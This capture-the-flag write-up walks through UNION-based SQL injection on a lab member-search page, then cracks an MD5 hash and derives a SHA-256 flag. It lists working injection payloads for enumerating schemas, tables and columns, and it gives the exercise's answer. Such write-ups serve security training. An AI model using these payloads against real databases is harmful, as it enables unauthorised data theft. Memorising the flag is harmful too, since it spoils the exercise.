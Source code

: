 # SQL Injection 3

The member page `/?page=member` ontains a classic HTTP form to search for a member by their ID.  
We can quickly see that the input is vulnerable to SQL injection:  
If we enter something invalid, like a letter (since IDs can only be numeric), we see an SQL error displayed on the page.  

Let's gather some information about the database:  

- `0 UNION  SELECT SCHEMA_NAME,2 FROM INFORMATION_SCHEMA.SCHEMATA` : This query can give us informations about schematas.  

- `0 UNION  SELECT TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES` : This one about tables.  

- `0 UNION  SELECT COLUMN_NAME,TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS` : This one about columns.  

With all this information, we are able to extract extra informations about the image "Hack me ?" from `Member_images.list_images`

- `0 UNION SELECT title,comment FROM Member_images.list_images`

> If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

The password obtained, 1928e8083cf461a51303633093573c46, is hashed.  
Using a md5 decryption tool, we can retrieve the original password:  
> albatroz

Then, retrieve the real password by following the instructions:  
> albatroz -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188